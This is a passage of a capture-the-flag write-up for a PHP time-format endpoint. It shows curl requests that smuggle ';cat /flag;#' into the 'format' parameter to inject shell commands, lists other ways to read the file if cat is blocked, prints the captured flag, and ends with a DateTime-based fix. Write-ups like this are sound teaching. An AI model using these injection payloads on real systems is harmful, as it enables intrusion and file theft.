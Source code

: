 **Alternative payloads if the server behaves differently:**
```
curl -s "http://94.237.123.160:42908/?format=%H:%M:%S%27%3B%2Fbin%2Fcat%20%2Fflag%3B%23"
# decoded: ?format=%H:%M:%S';/bin/cat /flag;#
```

**If you want headers and full response (debug):**
```
curl -i "http://94.237.123.160:42908/?format=%H:%M:%S%27%3Bcat%20%2Fflag%3B%23"
```

**Expected result** — the HTTP response body will include the contents of `/flag`. For this challenge the flag appeared inside the HTML response rendered by the app (the `index.php` output), for example:

```
...It's HTB{t1m3_f0r_th3_ult1m4t3_pwn4g3_a6114c6d0f2cae2650cf8c7f0f105030}...
```

**Note:** If `cat` is blocked, you can try alternative reads (`/bin/cat`, `awk`, `sed`, `python -c 'print open("/flag").read()'`, etc.). But typically `cat` or `/bin/cat` works on CTF containers.

---

## 5) Proof of concept (short)
1. Request time route normally:
```
curl -s "http://94.237.123.160:42908/?format=%H:%M:%S"
# returns something like: 16:22:01
```

2. Inject and read flag:
```
curl -s "http://94.237.123.160:42908/?format=%H:%M:%S%27%3Bcat%20%2Fflag%3B%23"
# returns page containing the flag (hidden in this writeup)
```

---

## 6) Mitigation & secure fixes

**Best fix — avoid shell calls**
Replace shell date usage with PHP's built-in `DateTime`:
```php
// Example safe approach
$format = $_GET['format'] ?? 'H:i:s';
// Map allowed keys or formats
$allowed_formats = [
  'time' => 'H:i:s',
  'date' => 'Y-m-d',
  // ... add only what's needed
];

if (isset($allowed_formats[$format])) {
  echo (new DateTime())->format($allowed_formats[$format]);
} else {
  // defensive default
  echo (new DateTime())->format('H:i:s');
}
```
